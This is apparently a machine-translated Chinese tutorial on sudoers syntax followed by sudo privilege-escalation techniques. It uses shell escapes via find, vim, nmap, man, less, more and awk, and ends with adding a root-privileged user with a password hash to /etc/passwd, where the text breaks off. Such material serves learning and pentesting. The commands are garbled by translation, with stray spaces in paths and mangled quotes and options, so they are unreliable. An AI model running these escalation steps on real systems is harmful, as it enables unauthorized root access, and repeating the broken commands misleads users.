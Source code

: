 sudoers文件主要有三部分组成：
sudoers的默认配置（default），主要设置sudo的一些缺省值
alias（别名），主要有Host_Alias|Runas_Alias|User_Alias|Cmnd_Alias。
安全策略（规则定义）——重点。

语法
root ALL=(ALL) ALL
说明1：root用户可以从 ALL终端作为 ALL（任意）用户执行，并运行 ALL（任意）命令。
第一部分是用户，第二部分是用户可以在其中使用sudo命令的终端，第三部分是他可以充当的用户，最后一部分是他在使用时可以运行的命令。sudo

touhid ALL= /sbin/poweroff
说明2：以上命令，使用户可以从任何终端使用touhid**的用户密码**关闭命令电源。

touhid ALL = (root) NOPASSWD: /usr/bin/find
说明3：上面的命令，使用户可以从任何终端运行，以root用户身份运行命令find 而无需密码。

利用SUDO用户

要利用sudo用户，您需要找到您必须允许的命令。
sudo -l
上面的命令显示了允许当前用户使用的命令。
让我们一一查看所有二进制文件（仅在索引中提到）和将特权提升给root用户。

使用查找命令

sudo find / etc / passwd -exec / bin / sh \;
要么
sudo find / bin -name nano -exec / bin / sh \;

使用Vim命令

sudo vim -c’！sh’

使用Nmap命令

sudo nmap-交互式nmap>！shsh-4.1＃
注意：**nmap –interactive选项在最新的nmap**中不可用。
没有互动的最新方式
echo“ os.execute（’/ bin / sh’）”> /tmp/shell.nse && sudo nmap —script = / tmp / shell.nse

使用Man命令

sudo man man
之后按！按下并按Enter

使用less/more命令

sudo less / etc / hosts
sudo more / etc / hosts
之后按！按下并按Enter

使用awk命令

sudo awk’BEGIN {system（“ / bin / sh”）}’

使用nano命令

nano是使用此编辑器的文本编辑器，在您需要切换用户之后，您可以修改passwd文件并将用户添加为root特权。在/ etc /passwd中添加此行，以将用户添加为root特权。

touhid：$ 6 $ bxwJfzor $ MUhUWO0MUgdkWfPPEydqgZpm.YtPMI / gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0：0：0：root：/ root：/ bin
